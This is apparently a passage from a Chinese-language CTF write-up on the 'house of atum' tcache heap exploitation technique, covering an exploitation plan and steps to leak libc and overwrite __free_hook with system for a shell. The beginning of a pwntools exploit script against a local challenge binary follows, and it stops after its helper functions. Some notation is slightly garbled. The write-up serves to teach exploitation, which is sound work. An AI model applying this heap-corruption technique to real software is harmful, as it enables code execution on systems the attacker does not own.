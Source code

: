 * 这样子我们就可以吧chunk B的开始地址链在tcache上

* 虽然目前看来没什么用但是 如果我们在一开始就设置好了chunk A的尾部也就是chunk_B的size前8字节
* 那么在我们将tcache上的chunk A+10 chunk B取下之后tcache 上将会留下我们设置的目标

* 之后我们只要盖掉chunk B 的size位删除后再次malloc 就可以得到 我们的目标

* 然后就可以做 over lap 和一些其他有趣的事情


# 利用思路
* 因为除了只有两个point之外没什么特殊的限制所以只要泄露了libc我们能直接改`__free_hook` 然后getshell
* 所以我们主要目标是:
    * modify size
    * free 
    * show
* 但是因为只有两个point 所以我们可以作为next_size的点比较少在free大chunk到unsorted bin时容易出错
* 假设我们将第二个chunk的末尾作为我们伪造的大chunk的next_chunk_size那我们需要控制第一个chunk前的位置
* 第一个chunk+10为0x60 我们控制0x50便可以控制size且free的时候next_chunk_size可以控制

# 利用过程
```python
* get heap base#u need it
* use house of atum 
    * add(p64(0x21)*7+p64(0x61)+p61(heap+0x250))
    * add()
    * free(0)*7
    * free(1),free(0)
    * add(),add()
    * free(0x2a0) to tcache(0x60) 
    * add()# get 0x250
* modify chunk_size (0x260)
* free 0x260 to fill tcache 
* free 0x260 to unsorted bin
* show to get libc_base
* modify: __free_hook --> system
* free /bin/sh
```
# exp
```python
from pwn import *

def cmd(c):
	p.sendlineafter("choice:",str(c))
def add(data=p64(0x11)*9):
	cmd(1)
	p.sendafter("tent:",data)
def edit(idx,data):
	cmd(2)
	p.sendlineafter("idx:",str(idx))
	p.sendafter("tent:",data)
def free(idx,mode=0):
	cmd(3)
	p.sendlineafter("idx:",str(idx))
	if(mode==0):
		p.sendlineafter(":",'n')
	else:
		p.sendlineafter(":",'y')
def show(idx):
	cmd(4)
	p.sendlineafter("idx:",str(idx))
p=process("./houseofAtum")
```